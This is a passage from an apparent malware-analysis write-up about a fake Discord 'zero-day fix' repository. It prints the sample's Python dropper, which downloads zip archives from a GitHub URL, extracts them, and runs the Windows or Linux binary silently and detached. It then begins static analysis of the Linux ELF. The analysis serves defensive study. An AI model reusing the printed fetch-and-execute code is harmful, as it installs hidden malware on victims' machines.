 ```python
            des = os.path.join(os.environ['TMP'], namezip)
            if not os.path.exists(os.path.join(os.environ['TMP'], name, name + ".exe")):
                urllib.request.urlretrieve(url, des)
                with open(des, 'wb') as f: f.write(urllib.request.urlopen(url).read())
                zf = ZipFile(des, 'r')
                zf.extractall(os.path.join(os.environ['TMP'], name))
                zf.close()
                pid = subprocess.Popen([os.path.join(os.environ['TMP'], name, name + ".exe")], creationflags=0x00000008 | subprocess.CREATE_NO_WINDOW).pid
        except:
            pass
    else:
        url = "https://github.com/GSandersonHSCS/discord-0-day-fix/raw/main/gitignore/cveslinux.zip"
        namezip = "cveslinux.zip"
        name    = "cveslinux"

        des = os.path.join("/home/" + os.environ["USERNAME"] + "/.local/share", namezip)
        if not os.path.exists(os.path.join("/home/" + os.environ["USERNAME"] + "/.local/share", name, name)):
            urllib.request.urlretrieve(url, des)
            with open(des, 'wb') as f: f.write(urllib.request.urlopen(url).read())
            zf = ZipFile(des, 'r')
            zf.extractall(os.path.join("/home/" + os.environ["USERNAME"] + "/.local/share", name))
            zf.close()
            st = os.stat(os.path.join("/home/" + os.environ["USERNAME"] + "/.local/share", name, name))
            os.chmod(os.path.join("/home/" + os.environ["USERNAME"] + "/.local/share", name, name), st.st_mode | stat.S_IEXEC)
            subprocess.Popen(["/bin/bash", "-c", os.path.join("/home/" + os.environ["USERNAME"] + "/.local/share", name, name)], start_new_session=True, stdout=subprocess.DEVNULL, stderr=subprocess.STDOUT)


    main()
```

The interesting part is the `.zip` files they install and run on the host. There seems to be 2 types of malware here, one for Windows and one for Linux. According to the news article, it seems that the Linux one can bypass most AVs when uploaded on sites like VirusTotal, while the Windows one is detected by 40 out of 60 scanners.

I took a look at the Windows malware because I was pretty lazy to delve into both since the article above gave us a rough idea of what the malware does. I'm by no means a reverse engineering expert, so don't expect a crazy technical walkthrough of what's running under the hood.&#x20;

## Static Analysis

Using a brand new VM, we can analyse this malware.&#x20;

{% code overflow="wrap" %}
```bash
$ file cves_linux    
cves_linux: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, stripped

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```
{% endcode %}
